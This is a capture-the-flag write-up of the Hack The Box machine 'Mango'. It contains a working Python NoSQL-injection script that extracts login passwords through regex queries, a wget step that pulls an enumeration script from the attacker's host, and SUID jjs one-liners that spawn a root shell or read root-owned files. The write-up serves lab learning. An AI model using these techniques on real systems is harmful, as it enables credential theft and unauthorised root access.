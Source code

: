 ```yaml
---
layout: post
title: "MANGO - Linux Easy Hack The Box writeup"
date: 2020-04-21
categories:
    - htb
    - linuxbox
tags:
    - easy_box
    - linux_box
    - htb
---
```


## Machine Details:
**IP Address :** 10.10.10.162

## Flags:
User: 79bf31c6

Root: 8a8ef79a

## Hints:
Name of the Machine - might be related to MongoDB.
SSL certificates


# Take Away
* Inspect the HTTPs website - certificates
* Make a habit of registering the hostnames locally.
* Look more into the home folder of the user, likely contains some hint

# Recon:
## nmap
scan command: `nmap -p- `
```
scan results
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)      
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))  
443

```

## Web Page found:
Https has some unknown certificate: https://10.10.10.162/

It talks about staging-order.mango.htb, added this as an hostname to /etc/hosts

Voila, there is an webpage (which was previously not present) in the http:// and not https:// webpage.

http://staging-order.mango.htb/

Has a log in screen, might be related to Mongo DB.


# Foothold :
For the login web page, Trying to use: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
the python script gives erroneous results.

The python script from https://book.hacktricks.xyz/pentesting-web/nosql-injection Gave proper output :)

## Script Used:
Notice: I guessed the name admin as the username from the certificate, and mango since the name of the machine is mango. :) - if it fails will enumerate the username as well.
```python
import requests
import string

url = "http://staging-order.mango.htb"
headers = {"Host": "staging-order.mango.htb"}
cookies = {"PHPSESSID": "k90e8p8k65a6b0b1rgbck1tutk"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"", "login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                print("pass",c)
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames

usernames = ["admin","mango"]
for u in usernames:
    get_password(u)

```

Was able to find the passwords:
```
admin : t9KcS3>!0B#2
mango : h3mXK8RhU~f{]f5H
```

Screen-Shot of the script output.

![f4bc96690381ae8e708dfd9567e1a274.png](/assets/f4bc96690381ae8e708dfd9567e1a274.png)


Logging into the website gave:

![38e6dd193b053e4ddcbe00572afa2b08.png](/assets/38e6dd193b053e4ddcbe00572afa2b08.png)

# User:

SSH into the box with the previous passwords:
admin - fails
mango - works :)

```
su admin
cat /home/admin/user.txt
79bf31c6c6
```

# Priv Esc:

su admin
password is the one found above.


# Root:

Checked a bunch of stuffs did not help corntab looks to be running. Might come back to this latter.

Will try to run the LinuxEnum Script.

```
Attacker Machine:
cd /root/HTB/LOCAL/LinEnum
python -m SimpleHTTPServer 8080

Target Machine:
wget http://10.10.15.72:8080/LinEnum.sh
```
Interesting Findings:
```


[+] Possibly interesting SGID files:
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

[+] Possibly interesting SUID files:                                              
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs      
```

Lets try:
```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

This Freezes but we see #

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc ls /root/').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

Did not work :(

sh -c 'cp $(which jjs) .; chmod +s ./jjs'
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh id').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p cat /root/root.txt').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh id').waitFor()
Java.type('java.lang.Runtime').getRuntime().exec('ls -la /root/').waitFor()
```

looked more into the home folder of the user.

```
ls -la /home/admin
found a file for jjs history; found this code snippet..

var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }

```

Works :)
Owned the Root.
